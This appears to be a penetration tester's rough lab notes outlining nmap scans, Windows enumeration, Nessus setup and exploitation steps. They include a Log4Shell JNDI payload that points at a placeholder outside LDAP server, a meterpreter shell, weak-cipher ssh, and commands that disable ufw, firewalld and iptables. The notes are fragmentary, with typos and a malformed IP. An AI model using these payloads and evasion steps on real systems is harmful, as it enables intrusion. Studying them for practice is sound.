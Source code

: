 ### nmap check firewall on all 

	run another nmap without script scan.
		nmap
		-sA -> enumerate firewall type 
		-sO -> perform IP protocol scan 
		-A 
		-T4
		
		nmap -sT -T4 --> does the fulltcp scan
		
		1. unfiltered firewall
			network = 1 hop from host to 192.168.1.105 @5:39AM
			
		2. ack scan @ 5:46 | -sO sacn protocol scan @5:41
		
		
		
		
		
# Grab inforation on hosts 
	Windows\System32\drivers\etc\hosts DNS file
	Windows\System32\drivers\etc\networks
	
#### run ipconfig 
	ipconfig /all 
	tasklist /m Show Sevices and Processes 
	
	netstat -an
	
	find the sysinfo 
	

	

# install nessus

	
	try to conneect to elk from kali box. 
	
	try log 4 shell exploit. 
	${jndi:ldap://someldapserver:1389/o=example}
	
	rubo77/log4j_checker_beta
	
		1. dpkg -i Nessus-10.1.1-debian_arm64.deb
		2. /bin/systemctl start nessusd.service
		3. https://kali:8834
		
		4. meterpreter shell @6.17
		
		information discolsure CVE-2001-0731
	


# steal ssh key 
	Symmetric Key Cryptography 
	
	ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (ubuntu Linux; protocol 2.0) ss- hostkey's visibile: 
	
	ssh 192.168.567 -oKexAlgorithims=+diffie-hellman-group1-sha1 -c theiroffer 
	
	1. ssh-hostkey in nmap 
	
	

	
# priviledge escelation to get root. 
	

# services passwd

# finding the login credentials 

# get credential
s 

# doing burp 




		
### firewall 
	sudo ufw disable 
	
	systemctl disable ufw 
	
   	Binary Padding 
	
	sudo systemctl stoop firewalld 
	
	service iptables stop 
	service ip6tables stop 
	

	
	80 Apache httpd 2.4.29
	1. http-ls 
	
	try script 
	
	get shell again, 
	
run other exploits. 

metasploit script for exploits. 

webdav exploits 


# proxying 
	
	
	
	
	----------------\
	****

	
	
	
	
	
	
	
	
	
	
	
	
	
	
	